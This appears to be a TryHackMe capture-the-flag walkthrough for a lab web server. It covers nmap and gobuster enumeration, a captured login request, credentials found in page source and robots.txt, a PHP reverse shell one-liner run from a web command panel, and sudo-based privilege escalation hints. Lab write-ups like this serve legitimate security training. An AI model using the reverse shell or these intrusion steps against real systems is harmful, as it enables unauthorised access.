



# Tryhackme ctf challenge
my machine: 10.9.234.242
target ip: 10.10.40.177

#### procedure

1. Perform nmap scan `nmap -sC -sV 10.10.40.177`
    
    - since we know port 80 is open we can explore the website. There will be a hint within the source code of the the home page. Let's remember the username `R1ckRul3s`

2. Perform gobuster scan to enumarate the website `gobuster dir -w <path to wordlist> -u http://10.10.40.177:80 -x php,txt,py,sh,cgi,bak,css,js`
    
    - gobuster was able to identify the route /login.php. I captured one of the requests using burpsuite to get the parameters that are submitted during post login, to try and perform a bruteforce on the http post form using hydra. (No success)
    ```
    POST /login.php HTTP/1.1
    Host: 10.10.40.177
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Origin: http://10.10.40.177
    Connection: close
    Referer: http://10.10.40.177/login.php
    Cookie: PHPSESSID=8hktk8c7ddson4fim2o6gefl74
    Upgrade-Insecure-Requests: 1

    username=a&password=a&sub=Login
    ```
    - eventually we eventually found the password from robots.txt `Wubbalubbadubdub`. Let's try to login using `R1ckRul3s`.

3. Once we logged in we have a command panel where we can run limited commands under the www-data user.

    - perform a reverse shell using this command `php -r '$sock=fsockopen("<your ip>",<your port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - once we got the shell from our terminal we can see there's a file that we cannot directly open to get the 1st ingredient. (use grep to open)
    
    - 2nd ingredient will be located somewhere around /home
    - last ingredient would most likely be in /root, but we don't have acces to it. try to run this command `sudo -l` and try to see if you can use grep to get the last ingredient.
